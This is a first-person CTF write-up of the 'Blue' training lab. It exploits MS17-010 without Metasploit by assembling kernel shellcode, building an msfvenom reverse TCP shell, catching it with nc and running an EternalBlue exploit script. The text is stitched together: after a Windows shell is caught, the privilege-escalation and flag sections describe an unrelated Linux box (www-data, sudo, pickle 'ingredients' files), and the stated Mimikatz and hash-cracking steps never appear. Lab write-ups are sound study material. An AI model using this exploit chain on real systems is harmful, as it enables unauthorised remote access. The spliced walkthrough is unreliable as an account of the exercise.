



CTF Write-up: Blue
Introduction
Nearly every write-up I could find on this room followed the steps exactly, i.e. ran the commands given in the room guidance, primarily running Metasploit modules. I also searched online, where I found some more interesting manual approaches. I have taken bits and pieces from these walkthroughs, plus added a little of my own ideas, such as using Mimikatz to extract the password hashes. Hopefully, this write-up will be useful to individuals wanting to approach the challenge a little differently and without the help of Metasploit (although I do use msfvenom for my payload).
Objective
Gain access, dump the stored SAM passwords, crack the hash and find the flags.
Setup
Connect via the VPN.
Step One - Enumeration
Perform a basic network mapper scan. We do not need DNS resolution (-n), let's perform a TCP SYN scan (-sS, a little bit stealthier), and output to an xml file (-oX).
case@local:~$ nmap -n -v -sS -oX blue_output.xml 10.10.34.160Here is a truncated snapshot of our scan output.
There is some useful stuff here. 445 (SMB) is definitely going to be our attack point, the room is called "Blue" and the preceeding learning modules have been almost exclusively referring to the EternalBlue exploit. Let us confirm our suspicions and run the nmap "vuln" scripts against port 445.
case@local:~$ nmap -n -v --script=vuln -p 445 -oX blue_script_vulns.xml 10.10.34.160Here is a truncated snapshot of our scan output.
Our suspicions have been confirmed, this machine is indeed vulnerable to "Remote Code Execution vulnerability in Mircosoft SMBv1 servers (ms17-010)". We have the CVE ID also. A quick search in exploit-db shows a number of available exploits.
Anyway, as mentioned in the intro, most write-ups for this room follow the exact same patterns, so I thought I would have a "look-about" on the Web, in order to see what I could find. I came across this GitHub repo: 3ndG4me/AutoBlue. The README states "This version of the exploit {EternalBlue} is prepared in a way where you can exploit eternal blue WITHOUT Metasploit". This is exactly what I want to do.
Step Two - Gain Access
I now know the machine is vulnerable to CVE-2017-0143. I have also found an interesting GitHub repo that includes some relevant, EternalBlue, exploit code. The repo actually contains the following file "eternalblue_kshellcode_x64.asm". This is an x64 assembly file, containing 64-bit kernel shellcode (kernel shellcode is a type of shellcode that runs with kernel-level (ring 0) privileges, i.e. full access to system hardware, memory etc). The repo even comes with shell scripts for assembling the entire payload, reverse shell included. However, this is a learning process, so let us do some of this manually.
A quick look at the script "shell_prep.sh" and we can quickly see how this is achieved. The shell runs the following command.
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.binThis command invokes the Netwide Assembler (NASM) to assemble the shellcode to a raw binary (bin) file, i.e. a direct translation into machine code, no headers or metadata. Run this command directly to create your payload file "sc_x64_kernel.bin".
I can also see that the "shell_prep.sh" script would have given us options to generate a reverse shell, either a Meterpreter shell or a regular cmd shell, for which it would also generate a raw binary file. Finally, it would have combined this reverse shell binary with the kernel shell code binary. So far, as we are doing this manually, we have only created the shellcode binary, "sc_x64_kernel.bin". We need to create a raw binary of a reverse shell for this exploit to work. Of course I cannot read the binary and I have not read the assembly, but I imagine the kernel shell code takes control of the target system's kernel, perhaps to gain elevated privileges and preparing the system for executing further commands, and will then execute the reverse shell, which we can catch on our local machine.
Let us create our reverse shell code binary using msfvenom. Here we create a stageless Windows, 64-bit, reverse-tcp shell, in raw binary format.
case@local:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={LOCAL_IP} LPORT=444 -a x64 -f raw -o sc_x64_msf.binFinally, we need to combine the kernel shellcode exploit binary with the reverse shell binary, again this would have been done by the "shell_prep.sh", but manually is easy too.
case@local:~$ cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.binWe now need to run the exploit. The AutoBlue repo also contains an exploit script "eternalblue_exploit7.py". This script is fairly complex, and even with five years Web Development experience I find it diffcult to understand exactly what is going on here. As far as I can make out, the script loads the binary shellcode file we created earlier (sc_x64.bin), which is the payload, and places into memory. The shellcode/payload will then execute providing us with our reverse shell. First then, let us set up a listener on our local/attacking machine.
case@local:~$ sudo nc -lvnp 444We can then run the exploit.
case@local:~$ python3 eternalblue_exploit7.py 10.10.34.160 sc_x64.binWe are in!
case@local:~$ sudo nc -lvnp 444
[sudo] password for case:
Listening on 0.0.0.0 444
Connection received on 10.10.34.160 49186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>Step Four - Privilege Escalation
Okay, so we have a stable/interactive reverse shell. We still only have "www-data" privileges. Let see what this user can do with "sudo". Using the command "sudo -l" we get the following output:
User www-data may run the following commands on ip-10-10-236-162:
(ALL) NOPASSWD: ALL
This is now effectively game over. This is telling us that our current logged in user can execute commands as any user, that no password is required to do so, and that we can run any command. We can simply escalate to root now by executing "sudo /bin/bash". We are now root!
root@ip-10-10-236-162:/var/www/html#Solution
First flag is here:
root@ip-10-10-236-162:/var/www/html# cat Sup3rS3cretPickl3Ingred.txtThe second flag is here:
root@ip-10-10-236-162:/home/rick# cat 'second ingredients'The final flag I found in this file here:
root@ip-10-10-236-162:/home/ubuntu# nano .bash_historyConclusion
This was fairly straight forward and should not give you any trouble. It is the first CTF in the Complete Beginner path so although it was fairly easy it was very useful in applying the techniques taught in the path up to this point. The key is to enumerate thoroughly first, carefully consider what you know about your target and tailor your attack based on what you know.